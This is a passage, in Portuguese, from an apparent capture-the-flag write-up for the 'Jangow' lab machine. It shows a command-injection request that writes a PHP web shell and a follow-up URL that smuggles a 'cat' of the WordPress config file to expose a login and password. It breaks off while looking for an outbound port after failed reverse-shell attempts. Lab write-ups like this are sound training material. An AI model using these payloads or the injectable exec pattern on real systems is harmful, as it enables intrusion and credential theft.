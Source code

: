 

Injetar o shell.php no alvo:

~~~
http://jangow/site/busque.php?buscar=echo '<?php exec("ping -c 4 " . $_GET['host'], $output);echo "<pre>";print_r($output);echo "</pre>";?>' > shell.php
~~~




Executar no browser:
~~~
http://jangow/site/shell.php?host=localhost;cat wordpress/config.php 2\>\&1 /dev/null           
~~~
![alt text](https://github.com/jandercalmeida/jangow/blob/main/images/output_shell.png)

Encontramos a seguinte credencial:

<b>
login desafio02 <br>
pass  abygurl69 <br>
</b>
<p>




<h3>Porta de saída no alvo:</h3>
Devido às tentativas de estabelecer um shell reverso sem sucesso, e a possível existência de firewall devido à constatação da aplicação “ufw” no sistema, vamos verificar a existência de uma porta de saída no alvo:
